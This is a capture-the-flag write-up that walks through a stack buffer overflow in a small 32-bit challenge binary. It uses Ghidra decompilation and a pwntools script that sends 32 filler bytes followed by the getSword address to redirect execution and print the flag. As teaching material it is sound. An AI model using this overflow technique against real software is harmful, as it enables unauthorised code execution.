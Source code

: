 So `printSword` simply prints the sword ascii art. Nothing exploitable here. Now let's look at `intro`:
```c
void intro(void)

{
  undefined local_20 [24]; // declare the buffer
  
  printf("What do you want ? ?: ");       // What do you want ? ?:
  fflush(_stdout);                        // not relevant here
  __isoc99_scanf(&DAT_0804a08c,local_20); // obtain input and store it in the buffer
  printf("You want, %s\n",local_20);      // print our input
  return;
}
```
Now this is where our input is being read. I put in some comments to explain what's going on in each line.

We can see that this is vulnerable to a buffer overflow [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) (return to win). Basically, we are able to input more than the specified 24 character limit for `local_20`, and the extra characters will overflow into the next memory address, and overwrite whatever was stored there.

If we look at the list of functions on the left of the ghidra window, we can see there is one last function of interest: `getSword`.
```c
void getSword(void)

{
  system("cat flag.txt"); // FLAG!!11!!1!!!11
  fflush(_stdout);
  return;
}
```
This function prints the flag, so our objective is to call it.

We can do this by overflowing the buffer until we reach the portion of memory where the return address is stored (in bytes), then also overwrite that with the function address of `getSword`.

This will cause the current function (`intro` in this case) to return to `getSword`, instead of the initial return address.

So how many characters do we need to put into the buffer, such that we reach the return address of `intro` and replace it? One way to determine this is by looking at the stack layout of variables, generated by Ghidra:

![](/static/KnightCTF2024/stack.png)

We see that `local_20` is actually allocated 0x20 = 32 bytes of memory. After that, we have `local_8`, which is likely the location of the return address.

Let's write a python script to try sending 32 arbitrary characters, and then the address of `getSword`, into the program. We will use pwntools, which is an extremely useful tool for pwn.

```py
from pwn import *

elf = ELF("./get_sword")
p = elf.process()
# getSword = p32(0x08049218)

payload = b'A'*32                   # 32 characters (b is byte string, needed for pwn)
payload += p32(elf.sym['getSword']) # address of getSword (p32 for 32-bit binary)

print(b'payload = ' + payload)      # just to check our payload
p.sendline(payload)                 # sends (payload + '\n')
print(p.recvall())                  # receive all program output
```